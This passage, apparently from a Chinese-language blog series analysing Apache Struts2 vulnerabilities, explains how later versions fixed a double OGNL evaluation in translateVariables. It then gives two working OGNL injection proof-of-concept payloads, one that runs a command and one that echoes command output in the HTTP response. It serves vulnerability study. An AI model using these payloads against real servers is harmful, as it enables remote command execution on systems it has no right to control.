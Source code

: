 由于我前面分析的是`2.2.3`版本，后续的版本的`translateVariables`变化有点大，其修复版本

![image-20200513155116772](/images/talk_about_struts2/image-20200513155116772.png)

增加了pos来做起始位置来查找`${}%{}`，在第一次表达式执行完成后会更新pos值，来防止二次OGNL表达式执行

### POC

```
currentSkill.name=%{(#_memberAccess['allowStaticMethodAccess']=true,#context['xwork.MethodAccessor.denyMethodExecution']=false,@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app'))}
// 回显POC
%{(#_memberAccess['allowStaticMethodAccess']=true,#context['xwork.MethodAccessor.denyMethodExecution']=false,#ret=@java.lang.Runtime@getRuntime().exec('id'),#isr=new java.io.InputStreamReader(#ret.getInputStream()),#br=new java.io.BufferedReader(#isr),#res=new char[2000],#br.read(#res),#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#writer.println(new java.lang.String(#res)),#writer.flush(),#writer.close())}
```

## 8. S2-013/S2-014
